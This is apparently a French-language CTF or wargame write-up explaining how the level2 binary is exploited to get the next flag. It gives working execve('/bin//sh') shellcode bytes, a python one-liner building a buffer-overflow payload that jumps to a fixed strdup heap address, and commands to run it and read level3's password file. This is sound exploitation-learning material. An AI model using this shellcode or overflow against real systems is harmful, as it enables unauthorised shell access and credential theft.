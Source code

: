 comment trouver le flag2

exactement comme le flag1 on a des gets() sauf qu'ils sont protege donc on va passer par la heap avec strdup

on va utiliser le debugger ltrace pour voir les adresses

peu importe la string rentree l'adresse de strdup reste la meme on va donc abuse de cette adresse (0x0804a008)

https://cdn.discordapp.com/attachments/1134141103768080415/1387083201066959030/image.png?ex=685c0d65&is=685abbe5&hm=309d029410c1879deb12ad6d9c7a8e358f44940807d1ac67dfcb8560d2b3f972&

pour executer "/bin//sh" et ouvrir un nouveau terminal le systeme fait toute ces instructions : \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

on va donc utiliser /bin//sh + le remplir de 59 octets (avec des X) et ainsi executer sur l'adresse de strdup qui est 0x0804a008 : \x08\x04\xa0\x08

python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 59 * 'X' + '\x08\x04\xa0\x08'[::-1]" > /tmp/overflow

cat /tmp/overflow - | ./level2

cat /home/user/level3/.pass

on a notre flag